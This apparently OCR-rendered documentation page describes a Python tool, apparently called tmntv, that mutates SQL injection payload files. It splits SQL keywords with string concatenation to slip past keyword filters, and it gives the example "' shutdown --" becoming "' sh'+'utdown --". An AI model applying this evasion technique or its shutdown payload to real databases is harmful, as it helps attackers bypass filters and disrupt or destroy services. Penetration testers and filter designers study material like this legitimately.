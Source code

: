 ```
 
 _sqlKeyWordDictionary = {} # Holding SQL keywords mapping 

 _searchList = [] # Holding only SQL keywords for later searching
 
 # Populate dictionary with SQL keywords and equvalent SQL keyword values
 for _sqlKeyword in _sqlKeywordList:

    _sqlKeyWordDictionary[str(_sqlKeyword).rstrip()] = addConcatenationToKeyword(option,_sqlKeyword)

 # Populate list with SQL keywords for searching later on
 for _sqlKeywordKey, _sqlKeywordValue in _sqlKeyWordDictionary.iteritems():

    _searchList.append(_sqlKeywordKey)

 for _payloadLine in  _payloadList:

    for _sqlKeywordKey, _sqlKeywordValue  in _sqlKeyWordDictionary.iteritems():

        if re.search(_sqlKeywordKey.upper(),_payloadLine):

            _payloadLine = str(_payloadLine).replace(_sqlKeywordKey.upper(),_sqlKeywordValue)

            # Search for all keywords within the payload line
            if not searchPayloadLineUpperAndLower(_searchList,_payloadLine):

                _mutatePayloadFileObj.write(_payloadLine)
            
        if re.search(_sqlKeywordKey.lower(),_payloadLine):

            _payloadLine = str(_payloadLine).replace(_sqlKeywordKey.lower(),_sqlKeywordValue)

            # Search for all keywords within the payload line
            if not searchPayloadLineUpperAndLower(_searchList,_payloadLine):

                _mutatePayloadFileObj.write(_payloadLine)

 _mutatePayloadFileObj.close()

```

---

  * Example of concatenation :

Input payload file content: ' shutdown --

Output payload file content:' sh'+'utdown --

**Note**: The tmntv(version) tool will take as an input a single file. The concatenation function will load the input file and spit out a file that you can use with concatenated payloads.